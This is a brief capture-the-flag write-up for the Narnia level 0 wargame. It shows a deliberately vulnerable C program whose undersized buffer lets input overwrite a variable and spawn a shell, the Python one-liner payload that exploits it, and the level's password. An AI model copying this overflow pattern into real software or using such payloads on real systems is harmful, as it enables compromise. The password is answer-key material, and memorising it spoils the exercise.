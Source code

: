 # Level 0

```c++
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

```python
python -c "print('B'*19)" | ./narnia0 
```
overwrites the last byte to 00. Null byte? Therefor we need to reverse `deadbeef`?
```python
python -c "print('deadbeef'[::-1])"
# output
feebdaed
```

```python
(python -c 'print(b"A"*20 + "\xef\xbe\xad\xde")'; cat;) | ./narnia0
```

# Password: efeidiedae
